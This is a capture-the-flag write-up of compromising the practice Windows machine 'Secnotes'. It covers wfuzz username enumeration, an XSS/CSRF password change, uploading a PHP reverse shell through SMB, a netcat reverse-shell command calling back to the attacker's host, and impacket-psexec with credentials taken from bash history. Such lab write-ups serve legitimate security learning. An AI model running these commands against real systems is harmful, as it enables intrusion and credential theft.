# Secnotes

<details>
<summary><strong>Summary</strong></summary>
Windows machine that uses SQL injection and some XSS with the logins for access to the notes app. Escalate privileges from there using a root shell installed on the machine. Scan the machine and find a login page on port 80 that is running php version 7.2.7. Check for valid usernames using a fuzzing attack with the `wfuzz` tool and find `tyler`. Find that when a note is created, the website doesn't sanitize inputs and executes HTML directly. In the contactUs form, find that the command is run in powershell. Use this and the `Change Password` URL to change tyler's password. Once in Tyler's notes, find an smb share. Use that to gain initial access and a shell. Find bash installed on the machine and run it. Find the `.bash_history` file and find an administrator password. Exploit it to get root.

<summary><strong>What I Learned</strong></summary>
<body>

1. Always check the desktop directory of the user you just compromised. In these machines, there is usually good information there. I missed it this time and had to go back an hour later.
2. A bash shell running in windows can often get you root access to files that the inital user does not have access to.
3. The SMB share goes both ways. You can use inital access to upload a file like netcat or a meterpreter shell.
</body>
</details>

### Steps

Scan the machine for open ports
`nmap --open -p- -oA nmap/open <IP>`

Find ports 80, 445, and 8808 are open

#### Scan the open ports




Go to the website on port 80
`http://10.129.244.217/login.php`

#### Check for valid usernames using wfuzz

- find the username "tyler"

```
wfuzz -c -w /usr/share/wordlists/seclists/Usernames/Names/names.txt -d "username=FUZZ&password=password" --hs "No account found with that username." -u http://10.129.244.217/login.php
```



#### Create a new user and Login

Clicking around, you find the change password API on the page does not include verifying your old password, so that could be exploited later.

- If the request is changed from a POST to a GET, you can change the password.
  

#### Create a note and add \<center\> tags to the content of the pages



#### Notes and their content are centered. HTML is not sanitized at all, so website is vulnerable to XSS



Create an html file with an iframe in it linking to the url in the password reset page from burp.


Test it on yourself and find that the link takes you to the page but doesn't fill in any information or click any links. Try sending it to tyler directly.


It works and you can now login as tyler using the `password112` password

Check smb shares on the target machine using the credentials found in tyler's notes.


Login to the smb share using the credentials

`smbclient \\\\10.129.33.69\\new-site -U tyler`

Try to get a reverse shell by uploading a file to the website using the SMB share
`revsh.php`  
Use the put command from the smb share to upload the file.


Run it from the browser and website using
`http://10.129.44.254:8808/revsh.php?fakename=whoami`

Download netcat64 to get a better shell than the smbclient  
https://eternallybored.org/misc/netcat/

Use the smbshare to upload it to the target machine  
`put nc64.exe`

Run the netcat shell using  
`http://<RHOST>:8808/request.php?fakename=nc64.exe <LHOST> <LPORT> -e powershell`

Get a reverse shell  


Check the `bash.lnk` file  
Bash is installed on this windows machine, so run it using `bash`  


check the user and find you are running as the root user  


`cd` to mnt (mount) which is where the C drive is
Try `cd /root`


find the `.bash_history` file which contains an admin user and password


Get a root shell using  
`impacket-psexec administrator@<IP_ADDR>`
